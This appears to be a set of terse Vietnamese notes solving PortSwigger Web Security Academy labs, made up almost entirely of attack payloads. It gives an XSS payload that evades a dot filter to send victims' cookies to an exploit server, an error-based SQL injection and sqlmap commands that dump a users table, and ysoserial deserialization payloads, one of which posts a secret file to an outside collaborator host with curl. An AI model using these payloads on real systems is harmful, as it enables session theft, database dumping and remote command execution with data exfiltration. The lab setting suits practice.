 1.

Filter dấu chấm 

payload: `"-fetch('https://exploit-0ad8002e0436378180812af8014d0063'+decodeURIComponent('%2E')+'exploit-server'+decodeURIComponent('%2E')+'net/exploitabc?cookie='+document['cookie'])}//`

<script>
location='https://0a7c00030469134c80543acb00690098.web-security-academy.net/?SearchTerm=%22-fetch%28%27https%3A%2F%2Fexploit-0af70033040613b0804139e601000080%27%2BdecodeURIComponent%28%27%252E%27%29%2B%27exploit-server%27%2BdecodeURIComponent%28%27%252E%27%29%2B%27net%2Fexploitabc%3Fcookie%3D%27%2Bdocument%5B%27cookie%27%5D%29%7D%2F%2F'
</script>

2.
payload: `CAST((SELECT+password+FROM+users+LIMIT+1)+AS+int)`

tool

```bash
python sqlmap.py -u 'https://0a48002f03d9345f80cd039700ed00a0.web-security-academy.net/advanced_search?SearchTerm=a&organize_by=*&blogArtist=' --cookie='session=c73gpxIvoomYTmECIzBVyTl6ZVrDGOd3' --batch --level=5 --risk=3 --dbms="PostgreSQL"
```

```bash
python sqlmap.py -u 'https://0a48002f03d9345f80cd039700ed00a0.web-security-academy.net/advanced_search?SearchTerm=a&organize_by=*&blogArtist=' --cookie='session=c73gpxIvoomYTmECIzBVyTl6ZVrDGOd3' --batch --level=5 --risk=3 --dbms="PostgreSQL" --dbs
```

```bash
python sqlmap.py -u 'https://0a48002f03d9345f80cd039700ed00a0.web-security-academy.net/advanced_search?SearchTerm=a&organize_by=*&blogArtist=' --cookie='session=c73gpxIvoomYTmECIzBVyTl6ZVrDGOd3' --batch --level=5 --risk=3 --dbms="PostgreSQL" -D public --tables
```

```bash
python sqlmap.py -u 'https://0a48002f03d9345f80cd039700ed00a0.web-security-academy.net/advanced_search?SearchTerm=a&organize_by=*&blogArtist=' --cookie='session=c73gpxIvoomYTmECIzBVyTl6ZVrDGOd3' --batch --level=5 --risk=3 --dbms="PostgreSQL" -D public -T users --dump
```


3. 

payload 


```bash
java -jar ysoserial.jar CommonsCollections6 'host ij5zpg5
74rhzawjanoer5ut3buhl5dt2.oastify.com' | gzip | base64 -w 0 > text.txt
```


```bash
java -jar ysoserial.jar CommonsCollections6 'curl -d @/home/carlos/secret ij5zpg5
74rhzawjanoer5ut3buhl5dt2.oastify.com' | gzip | base64 -w 0 > text.txt
```